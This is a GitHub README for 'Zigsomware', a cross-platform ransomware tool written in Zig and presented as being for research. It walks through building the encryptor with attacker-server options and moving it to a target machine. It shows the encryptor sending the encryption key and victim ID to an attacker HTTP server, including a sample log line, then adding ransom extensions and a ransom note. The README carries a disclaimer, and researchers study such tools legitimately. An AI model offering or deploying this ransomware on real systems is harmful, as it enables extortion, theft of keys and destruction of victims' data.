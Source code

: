 # :t-rex: Zigsomware :t-rex:

Zigsomware is a ransomware example written in Zig, for research purpose.  
Its target is cross-platform, supporting Linux, madOS, Windows, etc.

<br />

## Features

The Zigsomware is composesd of two executable files:

- `zigsom`:
    - Encrypts files with XChaCha20-Poly1305 algorithm.
    - Sends the encryption key and the victim ID to the specified server.

- `unlock`:
    - Decrypts the files that are encrypted by `zigsom`.

<br />

## Requirements

- Zig version 0.14.0+

<br />

## :warning: ATTENTION

- The project aims to help security research and educational purposes. Do not use it on any systems not under your control.
- Don't use it on your personal machine. Instead, use it on your test environment such as VM.
- Anyway, use it at your own risk.

<br />

# Tutorial

## 1. Build

First clone the repository:

```sh
git clone https://github.com/hideckies/zigsomware.git
cd zigsomware
```

And build the project with specified options:

```sh
# -Dtarget: The CPU architecture, OS, and ABI to build for e.g. 'x86_64-linux', 'x86_64-macos', 'x86_64-windows'
# -Ddir: Path of the directory to start encryption (default: './victim/')
# -Dserver_host: Server address
# -Dserver_port: Server port
# -Dserver_path: The URL path of the server to receive the encryption key and the victim ID.
# -Dlevel: The level at which Zigsomware encrypts files. The higher the level, the more files will be encrypted. [1: safe, 2: normal, 3: danger] (default: 1)
zig build \
-Dtarget=x86_64-windows \
-Ddir=./victim/ \
-Dserver_host=127.0.0.1 -Dserver_port=4444 -Dserver_path=/ \
-Dlevel=1
```

As above, we need to specify your server host/port/path for allowing the Zigsomware to download a encryption key. We can also set other servers such as `ngrok`.  
After that, the executables are generated under `zig-out` directory:

```sh
# e.g.
file ./zig-out/bin/unlock.exe
file ./zig-out/bin/zigsom.exe
```

Transfer the `zigsom.exe` to the target machine.  
Do not transfer the `unlock.exe` yet because it is used for decryption.

## 2. Start Attacker Server

To receive the encryption key and the victim ID, start the web server in your local machine. Here, we simply run Python HTTP server.

```sh
python3 -m http.server 4444
```

## 3. Run Zigsomware (Encryption)

In the target machine, execute the `zigsom`. We assume that the `victim` directory exist in the current directory.

```sh
# Check if the 'victim' directory exists.
dir .\victim

# Now execute files under the 'victim' directory.
.\zigsom.exe
```

When executed, the `zigsom` does the following:

1. Generates the encryption key and encode with Base64.
2. Sends the Base64-encoded encryption key and the victim ID to our attacker server (`http://127.0.0.1:4444/?id=123456&key=xxxxxxxxxxxxxxxxxx`).
3. Encrypts files under the `victim` directory that has been specified when `zig build`, using the encryption key.
4. Adds ransom extensions (`.zigsom`) for each file.
5. Places a ransom note (`README.txt`) in the `victim` directory.

The encryption key and the victim ID can be seen in our attacker server's log as below:

```txt
127.0.0.1 - - [08/Sep/2024 21:42:52] "GET /?id=116219480&key=WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y HTTP/1.1" 200 -
```

This key (`WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y` here) is used for decryption.

*The `zigsom` sends **HTTPS** request at first. If it is failed, the `zigsom` sends **HTTP** request instead.  

## 4. Decryption

To decrypt the files, use `unlock.exe` with the Base64-encoded encryption key in the target machine. We (or rather, the victims) execute `unlock.exe` with the Base64-encoded encryption key and the specified directory (`victim` here):

```sh
# -k: Base64-encoded encryption key
.\unlock.exe -k WN_1jH2JobcU3_9pwxXosWfmnlvB4Ju1pKQiZPRrf8Y .\victim\
```

When executed, the `unlock` does the following:

1. Decodes the Base64-encoded encryption key.
2. Decrypts files under the direcotry (`.\victim\`).
3. Removes the ransom extension (`.zigsom`) for each file.

